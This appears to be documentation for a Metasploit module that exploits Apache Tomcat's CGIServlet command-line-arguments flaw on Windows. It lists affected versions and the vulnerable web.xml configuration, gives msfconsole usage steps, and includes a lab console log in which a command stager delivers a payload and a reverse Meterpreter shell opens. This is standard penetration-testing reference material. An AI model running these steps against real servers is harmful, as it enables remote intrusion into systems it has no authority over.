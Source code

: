 ## Description

This module exploits a vulnerability in Apache Tomcat's CGIServlet component. When the enableCmdLineArguments setting is set to true, a remote user can abuse this to execute system commands, and gain remote code execution.

## Vulnerable Application

The following versions of Apache Tomcat on Windows are effected:

* 9.0.0.M1 to 9.0.17
* 8.5.0 to 8.5.39
* 7.0.0 to 7.0.93

Also, the machine needs to enable the enableCmdLineArguments option in web.xml. For example:

```xml
<servlet>
<servlet-name>cgi</servlet-name>
<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
<init-param>
  <param-name>cgiPathPrefix</param-name>
  <param-value>WEB-INF/cgi</param-value>
</init-param>
<init-param>
  <param-name>executable</param-name>
  <param-value></param-value>
</init-param>
<init-param>
  <param-name>enableCmdLineArguments</param-name>
  <param-value>true</param-value>
</init-param>
<load-on-startup>5</load-on-startup>
</servlet>
```

Also:

```xml
<servlet-mapping>
<servlet-name>cgi</servlet-name>
<url-pattern>/cgi/*</url-pattern>
</servlet-mapping>
```

Finally, a script needs to be available in the webapps\ROOT\WEB-INF\cgi directory. For example:

```
@echo off
echo Content-Type: text/plain
echo.
echo Hello, World!
```

## Verification Steps

1. Start msfconsole
2. Do: `use windows/http/tomcat_cgi_cmdlineargs`
3. Configure rhosts
4. Configure TARGETURI
5. Set a payload
6. Run the module, you should get a session.

## Scenarios

### Check Method

The check method of the exploit explicitly triggers the bug to verify the vulnerable, therefore it should be accurate. To use it, here is an example:

```
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > check
[+] 172.16.135.141:8080 - The target is vulnerable.
```

### Code Execution

```
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > exploit

[*] Started reverse TCP handler on 172.16.135.1:4444 
[*] Checking if 172.16.135.141 is vulnerable
[*] 172.16.135.141 seems vulnerable, what a good day.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Sending stage (179779 bytes) to 172.16.135.141
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.141:51982) at 2019-06-18 15:26:54 -0500
[*] Command Stager progress - 100.02% done (100692/100668 bytes)

meterpreter > 
[!] Make sure to manually cleanup the exe generated by the exploit
```

